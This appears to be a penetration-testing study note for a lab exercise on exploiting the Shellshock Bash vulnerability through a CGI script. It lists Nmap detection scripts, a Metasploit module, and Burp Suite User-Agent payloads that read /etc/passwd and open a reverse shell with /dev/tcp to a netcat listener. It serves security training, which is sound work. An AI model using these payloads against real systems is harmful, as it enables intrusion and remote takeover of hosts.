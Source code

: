 # System Host Based Attacks - Linux

<br>

## 1. Exploiting Linux Vulnerabilities

### 1.1. Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

**Shellshock** is a critical security vulnerability discovered in 2014 that affects the GNU Bash shell on Unix-based systems. It allows attackers to execute arbitrary commands by manipulating how Bash handles environment variables. If exploited successfully, it can lead to remote code execution (RCE) and potentially full system compromise.
- **Affected Versions**: GNU Bash versions 1.14 through 4.3 (prior to patches released in 2014).
- **Impact**: Attackers can inject malicious commands into environment variables processed by Bash, potentially leading to unauthorized access or control over the system.

```shell
nmap -Pn -A <target IP>
# Open the IP in the browser. We notice that there is a script whitin the site (CGI script)
curl <web_address>
<web_address>/gettime.cgi
```

A **CGI file** (Common Gateway Interface) is a script or program executed by a web server to generate dynamic content, such as processing form input, generating web pages, or handling requests. These scripts can be written in various programming languages, like Perl, Python, PHP, or Bash. 

```shell
ls -al /usr/share/nmap/scripts | grep -e "shellshock"
nmap --script-help "*shellshock*" # Visit: https://nmap.org/nsedoc/scripts/http-shellshock.html

# Check if the target is vulnerable by sending a malicious request to a specific URI.
nmap -sV --script http-shellshock --script-args uri=/gettime.cgi,cmd=ls <target_IP>
nmap -sV --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <target_IP>
```

**Exploit with Metasploit**

```shell
# Start Metasploit
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <target_IP>
set LHOST <my_IP>
set TARGETURI <Path_to_CGI_script> # e.g. http://demo.ine.local/gettime.cgi
exploit
```

**Exploit with Burp**

```shell
# Activate the proxy using the extension in Firefox.
# Open BurpSuite > Proxy > Intercept is on.
# We are going to inject the special characters in User-Agent header.
# Send to the repeater.
User-Agent: () { :; } ; echo; echo; /bin/bash -c 'cat /etc/passwd'
# Click send.
# We can utilize bash to essencially connect to a listener on our Kali Linux. We can do this using netcat.
nc -nvlp <my-port-number>
User-Agent: () { :; } ; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
# We should get a reversal on our netcat listener.
whoami
cat /etc/*issue
```
